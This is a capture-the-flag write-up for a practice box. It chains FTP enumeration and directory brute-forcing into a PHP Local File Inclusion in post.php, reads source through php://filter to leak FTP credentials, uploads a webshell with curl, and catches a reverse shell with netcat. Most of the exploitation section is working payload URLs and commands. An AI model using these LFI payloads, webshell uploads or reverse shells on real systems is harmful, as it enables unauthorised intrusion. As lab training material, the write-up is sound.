



# Port 21 - FTP

```bash
┌──(haz0x㉿kali)-[/tmp]
└─$ ftp 10.48.158.241 21               
Connected to 10.48.158.241.
220 (vsFTPd 3.0.5)
Name (10.48.158.241:haz0x): anonymous
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp> 
```

`FTP` anonymous login is disabled

---
# Web Enumeration

##### Directories 

```bash

ffuf -u http://TARGET/FUZZ -w wordlists/dir.txt 
gobuster dir -u http://TARGET -w wordlists/dir.txt 

┌──(haz0x㉿kali)-[/tmp]
└─$ gobuster dir -u http://10.48.158.241 -w "$DIRS"     
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.48.158.241
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://10.48.158.241/css/]
/images               (Status: 301) [Size: 315] [--> http://10.48.158.241/images/]
/index.php            (Status: 200) [Size: 4826]
/robots.txt           (Status: 200) [Size: 69]
/server-status        (Status: 403) [Size: 278]
Progress: 4750 / 4750 (100.00%)
===============================================================
Finished
===============================================================


```

##### Files discovery

```bash
                                                                                                                                                                                                                  
┌──(haz0x㉿kali)-[/tmp]
└─$ gobuster dir -u http://10.48.158.241 -w "$DIRS" -x php,txt,js
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.48.158.241
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              php,txt,js
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess.txt        (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.hta.php             (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.hta.js              (Status: 403) [Size: 278]
/.hta.txt             (Status: 403) [Size: 278]
/.htaccess.js         (Status: 403) [Size: 278]
/.htpasswd.js         (Status: 403) [Size: 278]
/.htpasswd.txt        (Status: 403) [Size: 278]
/.htpasswd.php        (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess.php        (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://10.48.158.241/css/]
/images               (Status: 301) [Size: 315] [--> http://10.48.158.241/images/]
/index.php            (Status: 200) [Size: 4826]
/index.php            (Status: 200) [Size: 4826]
/post.php             (Status: 200) [Size: 2422]
/robots.txt           (Status: 200) [Size: 69]
/robots.txt           (Status: 200) [Size: 69]
/server-status        (Status: 403) [Size: 278]
Progress: 19000 / 19000 (100.00%)
===============================================================
Finished
===============================================================
```

##### Robots.txt



`FLAG #1`: FLAG{robots_dot_text_what_is_next}

##### /secret_file_do_not_read.txt



---

# EXPLOITATION

The website showcases placemats and what's interesting is that every image is pulled from the server using a PHP file. Usually, these scripts are vulnerable to `Local File Inclusion`. It can also be chained to get `Remote Code Execution` or also known as `RCE`.

```bash
http://10.48.158.241/post.php?post=striped.php
```

I'll try a basic test to check the vulnerability. All we need to do is change `striped.php` to `../../../../etc/passwd` or `/etc/passwd`



`Vulnerability confirmed.`

It looks like the server have 5 users with shell access. 
- Ubuntu
- mat
- will
- toby
- root

There will be few stuff I would like to check. The code for `post.php`, the `secret_file` on robots.txt and then `logs`. It's possible that we can do log poisoning. For this, I will try to use `php://filter/convert.base64-encode/resource=` which encodes the contents of the file we are trying to access. 

```bash
http://10.48.158.241/post.php?post=php://filter/convert.base64-encode/resource=/var/www/html/post.php

 PCFkb2N0eXBlIGh0bWw+CjxodG1sIGxhbmc9ImVuIj4KICA8aGVhZD4KICAgIDxtZXRhIGNoYXJzZXQ9InV0Zi04Ij4KICAgIDxtZXRhIG5hbWU9InZpZXdwb3J0IiBjb250ZW50PSJ3aWR0aD1kZXZpY2Utd2lkdGgsIGluaXRpYWwtc2NhbGU9MSwgc2hyaW5rLXRvLWZpdD1ubyI+CiAgICA8bWV0YSBuYW1l....
 
<main role="main">

<div class="row">
 <div class="col-2"></div>
 <div class="col-8">
  <?php include $_GET["post"]; ?>
 </div>
</div>

</main> 
```

I tried multiple endpoints for `Log poisoning` but wasn't lucky. Moving on to the text file that was in `robots.txt`

```bash
http://10.48.158.241/post.php?post=php://filter/convert.base64-encode/resource=/var/www/html/secret_file_do_not_read.txt

Base64 decodes to: 

Hi Mat,

The credentials for the FTP server are below. I've set the files to be saved to /home/ftpuser/ftp/files.

Will

----------

ftpuser:givemefiles777

```

```bash
┌──(haz0x㉿kali)-[/tmp]
└─$ ftp 10.48.158.241 21
Connected to 10.48.158.241.
220 (vsFTPd 3.0.5)
Name (10.48.158.241:haz0x): ftpuser
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||46378|)
150 Here comes the directory listing.
drwxr-xr-x    2 1001     1001         4096 Dec 03  2020 files
-rw-r--r--    1 0        0              21 Dec 03  2020 flag_2.txt
```

`FLAG 2:`FLAG{ftp_you_and_me}

Something caught my mind because why would it include the directory where the files are saved in ftp. I think I can upload files through `FTP`. The problem is the traditional way of using `PUT <local_file>` doesn't work. After researching, i found out we can upload using curl

```bash
┌──(haz0x㉿kali)-[/tmp]
└─$ curl -T test.txt ftp://10.48.158.241/files/test.txt --user ftpuser:givemefiles777
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100     5   0     0 100     5     0     3   0:00:01  0:00:01 --:--:--     3

ftp> cd files
250 Directory successfully changed.
ftp> ls -la
229 Entering Extended Passive Mode (|||45425|)
150 Here comes the directory listing.
drwxr-xr-x    2 1001     1001         4096 Dec 16 09:57 .
dr-xr-xr-x    3 65534    65534        4096 Dec 03  2020 ..
-rw-r--r--    1 1001     1001            5 Dec 16 09:57 test.txt
226 Directory send OK.
ftp> 
```

That's confirm the upload vulnerability. With this, I can make a small cmd.php payload and upload it.

```bash
┌──(haz0x㉿kali)-[/tmp]
└─$ curl -T cmd.php ftp://10.48.158.241/files/cmd.php --user ftpuser:givemefiles777

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    16   0     0 100    16     0    11   0:00:01  0:00:01 --:--:--    11
                                                                                                                                                                                                                  
┌──(haz0x㉿kali)-[/tmp]
└─$ ftp 10.48.158.241 21
Connected to 10.48.158.241.
220 (vsFTPd 3.0.5)
Name (10.48.158.241:haz0x): ftpuser
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd files
250 Directory successfully changed.
ftp> ls -la
229 Entering Extended Passive Mode (|||46970|)
150 Here comes the directory listing.
drwxr-xr-x    2 1001     1001         4096 Dec 16 10:10 .
dr-xr-xr-x    3 65534    65534        4096 Dec 03  2020 ..
-rw-r--r--    1 1001     1001           16 Dec 16 10:10 cmd.php
-rw-r--r--    1 1001     1001            5 Dec 16 09:57 test.txt
226 Directory send OK.
ftp> 
```

Knowing the path for saved files in ftp. We can try using the webshell via `Local File Inclusion`

```
http://10.48.158.241/post.php?post=php://filter/convert.base64-encode/resource=/home/ftpuser/ftp/files/cmd.php?0=whoami
http://10.48.158.241/post.php?post=/home/ftpuser/ftp/files/cmd.php?0=id
```

Unfortunately, that didn't work but we still have another option. I'm going to put a straight up `Reverse Shell`. Once uploaded, all we have to do is access `http://10.48.158.241/post.php?post=/home/ftpuser/ftp/files/shell.php`

```bash
┌──(haz0x㉿kali)-[/tmp]
└─$ nc -lvnp 9999                                 
listening on [any] 9999 ...
connect to [192.168.133.134] from (UNKNOWN) [10.48.158.241] 50786
Linux ip-10-48-158-241 5.15.0-138-generic #148~20.04.1-Ubuntu SMP Fri Mar 28 14:32:35 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
 10:21:27 up  2:36,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (896): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ip-10-48-158-241:/$ 

```


